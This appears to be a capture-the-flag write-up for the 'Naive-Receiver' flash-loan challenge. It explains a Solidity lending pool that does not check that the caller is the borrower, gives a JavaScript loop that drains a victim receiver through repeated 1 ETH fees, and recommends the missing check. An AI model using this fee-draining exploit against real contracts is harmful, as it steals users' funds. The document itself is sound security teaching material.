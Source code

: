 # Naive-Receiver

## Introduction
The goal is to drain the user tokens.
In this section, flash loan from ***NaiveReceiverLenderPool.sol*** impose a fixed interest rate of 1 ether (Holy jesus).
Therefore, 1 token will be extracted from the user for every flash loan.

## Code Breakdown
Let's start by breaking down the source code into functions.
There are two files - ***FlashLoanReceiver.sol*** and ***NaiveReceiverLenderPool.sol***.
Similiar to the previous challenge, ***NaiveReceiverLenderPool.sol*** will execute function from ***FlashLoanReceiver.sol*** during a flashloan.

Let's look at ***NaiveReceiverLenderPool.sol*** primarily.
Two types of variables are declared at the start - ***Address*** and ***FIXED_FEE***.
```
using Address for address;
uint256 private constant FIXED_FEE = 1 ether; // not the cheapest flash loan
```

The primary function of the smart contract have several items to look at
```
function flashLoan(address borrower, uint256 borrowAmount) external nonReentrant {

    //goal to drain user's contract funds

    uint256 balanceBefore = address(this).balance; 
    require(balanceBefore >= borrowAmount, "Not enough ETH in pool"); 

    require(borrower.isContract(), "Borrower must be a deployed contract"); //can only be called from a different contract
    // Transfer ETH and handle control to receiver
    borrower.functionCallWithValue(
        abi.encodeWithSignature(
            "receiveEther(uint256)",
            FIXED_FEE
        ),
        borrowAmount
    );
    
    require(
        address(this).balance >= balanceBefore + FIXED_FEE,
        "Flash loan hasn't been paid back"
    );
}
```

Unlike the previous challenge, only 1 pool exist now.
***balanceBefore*** is a variable that stores the current number of ethers in the pool prior to a flash loan.
It must be more or equal to ***borrowAmount***.
```require(balanceBefore >= borrowAmount, "Not enough ETH in pool");``` 

Next, borrower must be a deployed contract rather than a user.
```require(borrower.isContract(), "Borrower must be a deployed contract");```

Next, it will execute ***receiverEther(uint256)*** function from ***FlashLoanReceiver.sol***.
```sol
// Transfer ETH and handle control to receiver
borrower.functionCallWithValue(
    abi.encodeWithSignature(
        "receiveEther(uint256)",
        FIXED_FEE
    ),
    borrowAmount
);
```

After executing the function from ***FlashLoanReceiver.sol***, it will check if the borrowed amount is payed along with the fixed fee.
```sol
require(
    address(this).balance >= balanceBefore + FIXED_FEE,
    "Flash loan hasn't been paid back"
);
```

## Hints
This function does not check if the ***msg.sender*** is indeed the borrower.
```sol
function flashLoan(address borrower, uint256 borrowAmount) external nonReentrant
```
Thus, an attacker can insert any valid address and initiate a flash loan causing the victim to pay the fixed fee.

## Solution
The solution is to siphon tokens away from a legitimate user by putting in their address for a flash loan.
By doing so, the smart contract will charge the legitimate user a fixed fee of 1 ETH per flash loan till they run out.
This is the easy solution.
```js
it('Exploit', async function () {
    /** CODE YOUR EXPLOIT HERE */   
    while (true){
        await this.pool.flashLoan(this.receiver.address, 0);
        value = String(await ethers.provider.getBalance(this.receiver.address));
        console.log(value);
        if (value == "0"){
            break;
        }
    }
});
```

## Recommendations
Always check if the sender is the borrower. A simple require statement can be implemented at the start of the flash loan
```require(msg.sender == borrower);```